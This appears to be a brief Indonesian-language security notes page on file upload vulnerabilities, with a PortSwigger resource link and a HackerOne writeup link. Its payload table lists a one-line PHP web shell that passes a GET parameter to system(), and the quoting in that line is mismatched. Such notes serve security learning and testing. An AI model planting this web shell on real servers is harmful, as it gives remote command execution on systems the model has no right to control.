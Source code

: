 # File Upload

## Apa itu ?

## Payload
|Tech|Payload|
|---|---|
|PHP|<?php<br>system($_GET["cmd']);<br>?>|

## Resource
- [File Upload Vulnerability - Portswigger Academy](https://portswigger.net/web-security/file-upload)

## Writeup
|Writeup|Ket|
|---|---|
|[XSS via unicode characters in upload filename](https://hackerone.com/reports/179695)|menggunakan unicode|
